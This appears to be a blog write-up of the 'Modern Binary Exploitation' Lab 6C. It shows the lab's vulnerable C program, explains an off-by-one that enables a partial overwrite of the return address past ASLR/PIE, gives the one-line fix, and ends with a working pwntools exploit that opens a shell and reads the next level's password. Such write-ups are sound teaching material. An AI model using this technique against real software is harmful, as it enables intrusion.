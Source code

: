 ```yaml
---
layout: post
title: Modern Binary Exploitation - Lab 6C
published: True
---
```


For this lab, we are given a program and its corresponding source code:

{% highlight C %}
/*
Exploitation with ASLR
Lab C

 gcc -pie -fPIE -fno-stack-protector -o lab6C lab6C.c
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct savestate {
    char tweet[140];
    char username[40];
    int msglen;
} save;

void set_tweet(struct savestate *save );
void set_username(struct savestate * save);

/* debug functionality, not used in production */
void secret_backdoor()
{
    char cmd[128];

    /* reads a command and executes it */
    fgets(cmd, 128, stdin);
    system(cmd);

    return;
}

void handle_tweet()
{
    struct savestate save;

    /* Initialize our save state to sane values. */
    memset(save.username, 0, 40);
    save.msglen = 140;

    /* read a username and tweet from the user */
    set_username(&save);
    set_tweet(&save);

    printf(">: Tweet sent!\n");
    return;
}

void set_tweet(struct savestate *save )
{
    char readbuf[1024];
    memset(readbuf, 0, 1024);

    printf(">: Tweet @Unix-Dude\n");
    printf(">>: ");

    /* read a tweet from the user, safely copy it to struct */
    fgets(readbuf, 1024, stdin);
    strncpy(save->tweet, readbuf, save->msglen);

    return;
}

void set_username(struct savestate * save)
{
    int i;
    char readbuf[128];
    memset(readbuf, 0, 128);

    printf(">: Enter your username\n");
    printf(">>: ");

    /* Read and copy the username to our savestate */
    fgets(readbuf, 128, stdin);
    for(i = 0; i <= 40 && readbuf[i]; i++)
        save->username[i] = readbuf[i];

    printf(">: Welcome, %s", save->username);
    return;
}

int main(int argc, char * argv[])
{

    printf(
    "--------------------------------------------\n" \
    "|   ~Welcome to l33t-tw33ts ~    v.0.13.37 |\n" \
    "--------------------------------------------\n");

    /* make some tweets */
    handle_tweet();

    return EXIT_SUCCESS;
}
{% endhighlight %}

If we run `checksec`, we can see that NX and PIE are enabled.

{% highlight bash %}
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
{% endhighlight %}

Because PIE is enabled, the ELF executable base address is randomized. However, the offsets **within** the ELF executable remain the same.
We can verify this by running `vmmap` in `gdb` a couple of times.

**Run 1**
{% highlight bash %}
0xb7709000 0xb770a000 r-xp	/levels/lab06/lab6C
0xb770a000 0xb770b000 r--p	/levels/lab06/lab6C
0xb770b000 0xb770c000 rw-p	/levels/lab06/lab6C

gdb-peda$ p secret_backdoor
$1 = {<text variable, no debug info>} 0xb776272b <secret_backdoor>
{% endhighlight %}

**Run 2**
{% highlight bash %}
0xb7725000 0xb7726000 r-xp	/levels/lab06/lab6C
0xb7726000 0xb7727000 r--p	/levels/lab06/lab6C
0xb7727000 0xb7728000 rw-p	/levels/lab06/lab6C

gdb-peda$ p secret_backdoor
$2 = {<text variable, no debug info>} 0xb772572b <secret_backdoor>
{% endhighlight %}

Notice that the lower 3 nibbles of the `secret_backdoor` address are always the same!

## Vulnerability
We can see from the source code that there is a **off by one** error introduced in `set_username()` on this line:
{% highlight C %}
for(i = 0; i <= 40 && readbuf[i]; i++)
{% endhighlight%}

To fix it, we would have to change it to the following.
{%highlight C%}
for(i = 0; i < 40 && readbuf[i]; i++)
{%endhighlight%}

This mistake allows us to overwrite the byte adjacent to the `username[]` buffer in the `save` struct, which in this case, is the `msglen` variable.
If we overwrite this `msglen` variable with `0xc6`, we will later be able to `strncpy()` just enough bytes from stdin to do a partial overwrite of the lower two bytes of the saved EIP of `handle_tweet()`. 

If we compare the address of `main()` and the address of `secret_backdoor`, we see why we only need to overwrite the lower two bytes instead of the entire return address.

~~~
gdb-peda$ p main
$3 = {<text variable, no debug info>} 0xb77fd962 <main>
gdb-peda$ p secret_backdoor
$1 = {<text variable, no debug info>} 0xb77fd72b <secret_backdoor>
~~~

We can see that both of their most significant bytes are `0xb77fd` and that they only differ in the last 3 nibbles.
Also, we don't want to overwrite `msglen` with a value more than `0xc6` for 2 reasons.

First, we don't want to because of the way `strncpy()` works. 
Take a careful look at this line:

{% highlight C %}
strncpy(save->tweet, readbuf, save->msglen);
{%endhighlight%}
It is supposed to read `save->msglen` bytes of data from `readbuf` and write them to `save->tweet`.
However, because of how `strncpy()` works, if the length of `readbuf` is less than `save->msglen`, then `strncpy()` will pad additional null bytes to `save->tweet` to ensure that `save->msglen` bytes are written.

Additionally, we don't want to overwrite any more bytes than that because ASLR randomizes bits 13-20, or the middle two bytes, of the saved EIP. 
This means that unfortuantely, we won't know what bits 13-16 are, and need to brute force it. Overwriting `msglen` with `0xc7` would require us to bruteforce another nibble, so we just stick with overwriting the lower 2 bytes. 
  
**Saved EIP before overwrite**

~~~
0000| 0xbfe6859c --> 0xb77fd98a (<main+40>:	mov    eax,0x0)
~~~

**Saved EIP after overwrite**

~~~
0000| 0xbfe6859c --> 0xb77f572b ("rtoul_internal")
~~~

If we look at the address of `secret_backdoor()`, though, we notice that it does not match the address that we overwrote the saved EIP with. 

~~~
gdb-peda$ p secret_backdoor
$1 = {<text variable, no debug info>} 0xb77fd72b <secret_backdoor>
~~~

Again, that is because we need to bruteforce bits 13-16, and therefore, won't overwrite the saved EIP with the right address, 15 out of every 16 times.

Putting everything together, the following exploit, while not 100% reliable, will give us a shell if we run it a few times.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def exploit(r):
  r.sendline("A"*40+"\xc6")
  r.sendline("A"*196+"\x2b\x57")
  r.sendline("/bin/sh")
  
  r.interactive()
if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process([ '/levels/lab06/lab6C'])
    print util.proc.pidof(r)
    #pause()
    exploit(r)
{% endhighlight %}

{% highlight bash %}
lab6C@warzone:/tmp/lab6C$ python solve.py 
[*] For remote: solve.py HOST PORT
[+] Starting program '/levels/lab06/lab6C': Done
[28202]
[*] Switching to interactive mode
--------------------------------------------
|   ~Welcome to l33t-tw33ts ~    v.0.13.37 |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?>: Tweet @Unix-Dude
>>: >: Tweet sent!
$
$ cat /home/lab6B/.pass
p4rti4l_0verwr1tes_r_3nuff
{% endhighlight %}

